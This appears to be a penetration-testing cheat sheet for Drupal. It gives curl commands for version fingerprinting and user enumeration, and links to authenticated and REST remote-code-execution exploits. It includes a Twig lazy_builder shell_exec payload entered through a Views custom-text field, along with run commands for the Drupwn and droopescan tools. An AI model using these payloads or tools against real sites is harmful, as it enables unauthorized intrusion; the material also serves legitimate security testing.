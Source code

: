 # 💧 Drupal

## Manual

```bash
# check meta
curl https://www.drupal.org/ | grep 'content="Drupal'
# version
curl https://drupal-site.com/CHANGELOG.txt
# node
curl drupal-site.com/node/1

# users
# 403 -> exists | 404 -> doesn"t
curl https://www.drupal.org/user/X
# get username
curl https://www.drupal.org/reset/user/X/1/1
```

### Exploits

### Drupal < 8.7.x Authenticated RCE module upload

{% embed url="https://www.drupal.org/project/drupal/issues/3093274" %}

{% embed url="https://www.drupal.org/files/issues/2019-11-08/drupal_rce.tar_.gz" %}

#### Drupal < 9.1.x Authenticated RCE Twig templates

{% embed url="https://www.drupal.org/project/drupal/issues/2860607" %}

"Administer views" -> new View of User Fields -> Add a "Custom text" :

```java
"{{ {"#lazy_builder": ["shell_exec", ["touch /tmp/hellofromviews"]]} }}"
```

#### If found /node/$NUMBER, the number could be devs or tests pages

#### Drupal < 8.6.9 - REST Module Remote Code Execution

{% embed url="https://www.exploit-db.com/exploits/46459" %}

### Check for username disclosure on old versions:

> ?q=admin/views/ajax/autocomplete/user/a

## Tools

### Drupwn

> Enumeration & Exploitation

{% embed url="https://github.com/immunIT/drupwn" %}

```bash
# install
git clone https://github.com/immunIT/drupwn.git
cd drupwn
pip3 install -r requirements.txt

# enum
drupwn --mode enum --target $url

# exploit
drupwn --mode exploit --target $url
```

### droopescan

{% embed url="https://github.com/SamJoan/droopescan" %}

```bash
apt-get install python-pip
pip install droopescan

# scan
 droopescan scan drupal -u example.org
```
